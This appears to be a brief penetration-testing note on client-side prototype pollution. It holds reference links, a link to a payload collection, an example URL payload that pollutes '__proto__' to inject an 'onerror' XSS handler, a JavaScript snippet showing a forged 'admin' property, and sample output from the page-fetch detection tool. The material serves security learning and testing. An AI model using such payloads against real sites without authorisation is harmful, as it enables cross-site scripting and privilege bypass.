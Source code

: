 ### Prototype Pollution


# Resources
https://labs.detectify.com/2021/06/08/what-is-a-prototype-pollution-vulnerability-and-how-does-page-fetch-help/
https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/

# Payloads
https://github.com/BlackFan/client-side-prototype-pollution

# Example
# The payload parameter pollutes the prototype, making it available on the messages object
# The message parameter is used to choose our payload to be displayed
?__proto__[payload]=<img%20src%20onerror=alert(document.domain)>&message=payload

# Another example
```
const user = { userid: 123 };
if (user.admin) {
    console.log('You are an admin');
}
Object.prototype.admin = true;
const user = { userid: 123 };
if (user.admin) {
    console.log('You are an admin'); // this will execute
}
```

# Page-fetch can be used to detect prototype pollution
https://github.com/detectify/page-fetch

# Usage
echo https://detectify.com | page-fetch 
GET https://detectify.com/ 200 text/html; charset=utf-8 
GET https://detectify.com/site/themes/detectify/css/detectify.css?v=1619009098 200 text/css 
GET https://detectify.com/site/themes/detectify/img/detectify_logo_black.svg 200 image/svg+xml 
GET https://fonts.googleapis.com/css?family=Merriweather:300i 200 text/css; charset=utf-8 
